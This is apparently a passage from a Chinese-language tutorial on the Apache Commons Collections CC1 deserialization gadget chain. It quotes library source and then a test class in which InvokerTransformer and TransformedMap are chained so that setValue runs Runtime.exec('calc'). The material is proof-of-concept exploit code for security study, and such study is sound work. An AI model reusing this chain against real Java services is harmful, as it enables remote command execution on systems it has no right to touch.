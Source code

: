 ```plain
        return entry;
    }

    //-----------------------------------------------------------------------
    public Object getKey() {
        return entry.getKey();
    }

    public Object getValue() {
        return entry.getValue();
    }

    public Object setValue(Object object) {
        return entry.setValue(object);
    }
```

#### 利用验证：

这里就能够测试一下到此为止我们的调用链是否成立：

```plain
package exp;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CC1Test {
    public static void main(String[] args) throws Exception{
        //Runtime.getRuntime().exec("calc");命令执行对应的命令；
        Runtime r = Runtime.getRuntime();//单例模式，通过对应方法创建对象
//        Class c = Runtime.class;
//        Method execMethod = c.getMethod("exec",String.class);
//        execMethod.invoke(r,"calc");

        //危险类利用测试：我们先调用InvokerTransformer的类,传入对应的参数，再找到对应的构造函数
        //public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args)//传参对应的是规定类型的数组，用来存放参数类型和参数值，所以我们要用它给的形式来进行传参；
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        HashMap<Object,Object> map = new HashMap<>();//new一个map
        map.put("key","value");//对map进行赋值
        Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,invokerTransformer);
        for(Map.Entry entry:transformedmap.entrySet()){//将transformedmap传进去，会自动调用到父类里面的setValue方法：
            entry.setValue(r);
        }
    }
}
```
